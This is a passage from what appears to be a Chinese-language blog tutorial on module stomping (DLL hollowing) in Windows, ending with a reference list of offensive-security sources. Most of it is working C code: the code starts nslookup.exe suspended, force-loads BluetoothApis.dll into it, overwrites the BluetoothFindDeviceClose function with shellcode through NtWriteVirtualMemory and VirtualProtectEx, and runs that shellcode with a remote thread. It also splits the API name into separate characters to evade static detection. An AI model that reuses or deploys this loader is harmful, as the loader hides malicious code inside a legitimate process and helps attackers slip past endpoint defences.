LPVOID lpLoadLibrary = (LPVOID)GetProcAddress(LoadLibraryW(L"kernel32.dll"), "LoadLibraryW");
CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)lpLoadLibrary, lpDllPath, NULL,NULL);
ResumeThread(pi.hThread);

```



1. 修改内存属性 写入shellcode

```
LPVOID sacrificedAddr = GetProcAddress(LoadLibrary(L"bthprops.cpl"), "BluetoothFindDeviceClose");
DWORD   dwOldProtection = NULL;
ULONG  byteWritten = NULL;
    VirtualProtectEx(pi.hProcess, sacrificedAddr, sizeof(shellcode), PAGE_READWRITE, &dwOldProtection);

    NtWriteVirtualMemory(pi.hProcess, sacrificedAddr, shellcode, sizeof(shellcode),&byteWritten);

    VirtualProtectEx(pi.hProcess, sacrificedAddr, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

    HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)sacrificedAddr, NULL, NULL, NULL);
    WaitForSingleObject(hThread,-1);

```

你会发现这样并不行

两个进程间dll的地址是相同的 通过调试发现 问题出在选取的函数`BluetoothFindDeviceClose`

实际上是`BluetoothApis.dll`中的 代码里从`bthprops.cpl`找并找不到

前面的`szDllPath`换成`BluetoothApis.dll`就行了





完整代码

```
STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    TCHAR* szDllPath = _wcsdup(L"BluetoothApis.dll");

    CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, false, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    LPVOID lpDllPath = VirtualAllocEx(pi.hProcess, NULL, _tcslen(szDllPath) * sizeof(TCHAR) + sizeof(TCHAR), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    char str1[] = { 'N','t','W','r','i','t','e','V','i','r','t','u','a','l','M','e','m','o','r','y','\0' };
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), str1);

    NtWriteVirtualMemory(pi.hProcess, lpDllPath, szDllPath, _tcslen(szDllPath) * sizeof(TCHAR) + sizeof(TCHAR), NULL);

    LPVOID lpLoadLibrary = (LPVOID)GetProcAddress(LoadLibraryW(L"kernel32.dll"), "LoadLibraryW");

    CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)lpLoadLibrary, lpDllPath, NULL,NULL);
    ResumeThread(pi.hThread);
    Sleep(50);


    LPVOID sacrificedAddr = GetProcAddress(LoadLibrary(L"BluetoothApis.dll"), "BluetoothFindDeviceClose");
    DWORD   dwOldProtection = NULL;
    ULONG  byteWritten = NULL;


    VirtualProtectEx(pi.hProcess, sacrificedAddr, sizeof(shellcode), PAGE_READWRITE, &dwOldProtection);

    NtWriteVirtualMemory(pi.hProcess, sacrificedAddr, shellcode, sizeof(shellcode),&byteWritten);

    VirtualProtectEx(pi.hProcess, sacrificedAddr, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

    HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)sacrificedAddr, NULL, NULL, NULL);
    WaitForSingleObject(hThread,-1);

```

# 参考

<https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing>

<https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection>

<https://blog.csdn.net/xf555er/article/details/130855421>

<https://github.com/m0n0ph1/Process-Hollowing/blob/master/sourcecode/ProcessHollowing/ProcessHollowing.cpp>

<https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocating>

<https://www.henry-blog.life/henry-blog/shellcode-jia-zai-qi/jin-cheng-lou-kong-zhu-ru-kui-lei-jin-cheng#id-2.-du-queyi-cheng-xu-de-nei-rong>
